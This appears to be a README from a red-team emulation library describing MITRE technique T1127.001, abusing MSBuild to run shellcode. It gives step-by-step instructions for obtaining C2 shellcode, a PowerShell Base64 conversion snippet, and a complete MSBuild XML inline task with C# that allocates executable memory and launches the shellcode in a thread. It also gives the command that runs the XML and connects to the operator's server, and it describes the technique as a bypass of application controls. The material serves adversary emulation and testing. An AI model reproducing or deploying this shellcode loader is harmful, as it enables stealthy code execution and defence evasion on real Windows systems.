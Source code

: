 # T1127.001 - Trusted Developer Utilities Proxy Execution: MSBuild

This SCYTHE Compound Action leverages the native Windows utility MSBuild to execute malicious code. This is a LOLBAS attack that uses the MSBuild compiler to dynamically compile and execute C# code contained within an XML file. The C# code decodes and runs shellcode, which runs within the MSBuild.exe process. Since the MSBuild executable is digitally signed by Microsoft, this attack is also a bypass of many common Application Controls. For more about abuse of MSBuild: https://attack.mitre.org/techniques/T1127/001/ 

## Obtaining the Shellcode

First, you must obtain shellcode that loads the malicious payload you wish to execute. In this Compound Action, we will use shellcode generated by SCYTHE.

Create a Campaign in the SCYTHE UI. Then, follow the instructions below depending on your version of SCYTHE.

### Pre-3.4

In the Campaign List, select the Campaign that you created to view its detailed page. Click the "More Actions..." dropdown menu, and select "Direct-Downloads Links". You will be shown a list of download links. Each is the SCYTHE client in a different executable format. To download the shellcode format, choose either the 32-bit or 64-bit "Reflective Loader + DLL" link and paste it into your browser. The shellcode should begin downloading.

### 3.4

In the Campaign List, select the Campaign that you created to view its detailed page. Click the "Download" button. You will be shown a "Download Campaign Client" menu. Select your preferred architecture (64-bit or 32-bit) and "Shellcode + DLL" for the File Type. Click the Download SCYTHE Client button. The shellcode should begin downloading.

## Creating the Shellcode Runner

Transform the shellcode file into a Base64 format. You may do this however you like, but any easy method is the following:

1) Open a PowerShell prompt and use the following code to transform the .bin file into a Base64-string. 

    * Edit the path to the appropriate path for your .bin file.
    * Ensure you have double "\\\\" between directories in the string.
```powershell
$filename = "C:\\Users\\User\\Downloads\\test1_scythe_client32.bin"
[Convert]::ToBase64String([IO.File]::ReadAllBytes($filename)) | clip
```
 
2) You will now have a large Base64 string in your clipboard that you may paste elsewhere. Create a new XML file with and paste the following into it, replacing the existing Base64 string:

```xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
<!-- This inline task executes shellcode. This example XML file is modified from an example payload created by Casey Smith. It has been modified to support non-blocking shellcode loaders.-->
<!-- C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj -->
<!-- Save This File And Execute The Above Command -->
<!-- Authors: Casey Smith, Twitter: @subTee , The Wover-->
<!-- License: BSD 3-Clause -->
<Target Name="Run">
<ClassExample />
</Target>
<UsingTask
TaskName="ClassExample"
TaskFactory="CodeTaskFactory"
AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
        <Code Type="Class" Language="cs">
            <![CDATA[
            using System;
            using System.Runtime.InteropServices;
            using Microsoft.Build.Framework;
            using Microsoft.Build.Utilities;
            public class ClassExample :  Task, ITask
            {         
                private static UInt32 MEM_COMMIT = 0x1000;
                private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

                [DllImport("kernel32")]
                private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

                [DllImport("kernel32")]
                private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

                [DllImport("kernel32")]
                private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

                public override bool Execute()
                {
                //replace with your own shellcode
                    string b64 = "YOmlAgAAW4PsKInliV0Ag8MAZKEwAAA.....AAAAAAAAAA=";
                    byte[] shellcode = System.Convert.FromBase64String(b64);
                    
                    UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
                    Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
                    IntPtr hThread = IntPtr.Zero;
                    UInt32 threadId = 0;
                    IntPtr pinfo = IntPtr.Zero;
                    hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);

                    // Loop endlessly to prevent the process from exiting
                    int x = 0;
                    for (int i = 0; i==i; i++) 
                    {
                        x = i;
                        x++;
                    }
                    return true;
                } 
            }     
            ]]>
            </Code>
        </Task>
    </UsingTask>
</Project>
```

3) When you replace the existing base64 string with your own, keep in mind the following. 
    * Delete the pre-existing text between the double quotes and the paste from your clipboard.
    * Make sure that there are no spaces or newlines inside of the string or between the double quotes.
4) Save the file as an XML file (such as `msbuild.xml`).
5) In your Powershell prompt, run the following command, replacing the path to the .XML file with your own:
    * `C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe .\msbuild.xml`
    * The SCYTHE client should connect with your SCYTHE server.
    * If the Powershell window is closed, connection will drop.